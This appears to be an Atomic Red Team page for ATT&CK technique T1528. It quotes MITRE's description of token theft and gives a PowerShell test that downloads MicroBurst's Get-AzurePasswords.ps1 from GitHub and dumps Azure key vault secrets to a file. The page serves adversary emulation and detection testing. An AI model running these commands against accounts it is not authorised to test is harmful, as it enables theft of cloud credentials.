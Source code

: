 # T1528 - Steal Application Access Token

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1528)

<blockquote>Adversaries can steal application access tokens as a means of acquiring credentials to access remote systems and resources.

Application access tokens are used to make authorized API requests on behalf of a user or service and are commonly used as a way to access resources in cloud and container-based applications and software-as-a-service (SaaS).(Citation: Auth0 - Why You Should Always Use Access Tokens to Secure APIs Sept 2019) OAuth is one commonly implemented framework that issues tokens to users for access to systems. Adversaries who steal account API tokens in cloud and containerized environments may be able to access data and perform actions with the permissions of these accounts, which can lead to privilege escalation and further compromise of the environment.

In Kubernetes environments, processes running inside a container communicate with the Kubernetes API server using service account tokens. If a container is compromised, an attacker may be able to steal the container’s token and thereby gain access to Kubernetes API commands.(Citation: Kubernetes Service Accounts)

Token theft can also occur through social engineering, in which case user action may be required to grant access. An application desiring access to cloud-based services or protected APIs can gain entry using OAuth 2.0 through a variety of authorization protocols. An example commonly-used sequence is Microsoft's Authorization Code Grant flow.(Citation: Microsoft Identity Platform Protocols May 2019)(Citation: Microsoft - OAuth Code Authorization flow - June 2019) An OAuth access token enables a third-party application to interact with resources containing user data in the ways requested by the application without obtaining user credentials.

Adversaries can leverage OAuth authorization by constructing a malicious application designed to be granted access to resources with the target user's OAuth token.(Citation: Amnesty OAuth Phishing Attacks, August 2019)(Citation: Trend Micro Pawn Storm OAuth 2017) The adversary will need to complete registration of their application with the authorization server, for example Microsoft Identity Platform using Azure Portal, the Visual Studio IDE, the command-line interface, PowerShell, or REST API calls.(Citation: Microsoft - Azure AD App Registration - May 2019) Then, they can send a [Spearphishing Link](https://attack.mitre.org/techniques/T1566/002) to the target user to entice them to grant access to the application. Once the OAuth access token is granted, the application can gain potentially long-term access to features of the user account through [Application Access Token](https://attack.mitre.org/techniques/T1550/001).(Citation: Microsoft - Azure AD Identity Tokens - Aug 2019)

Application access tokens may function within a limited lifetime, limiting how long an adversary can utilize the stolen token. However, in some cases, adversaries can also steal application refresh tokens(Citation: Auth0 Understanding Refresh Tokens), allowing them to obtain new access tokens without prompting the user.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst](#atomic-test-1---azure---dump-all-azure-key-vaults-with-microburst)

<br/>

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst

Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure

**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea

#### Inputs:

| Name            | Description                     | Type   | Default Value                |
| --------------- | ------------------------------- | ------ | ---------------------------- |
| username        | Azure AD username               | string |                              |
| password        | Azure AD password               | string | T1082Az                      |
| output_file     | File to dump results to         | string | $env:temp&#92;T1528Test1.txt |
| subscription_id | Azure subscription id to search | string |                              |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:

```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```

##### Description: The Azure RM module must be installed.

##### Check Prereq Commands:

```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AzureRM -Force -allowclobber
```

##### Description: The Azure module must be installed.

##### Check Prereq Commands:

```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name Azure -Force -allowclobber
```

<br/>
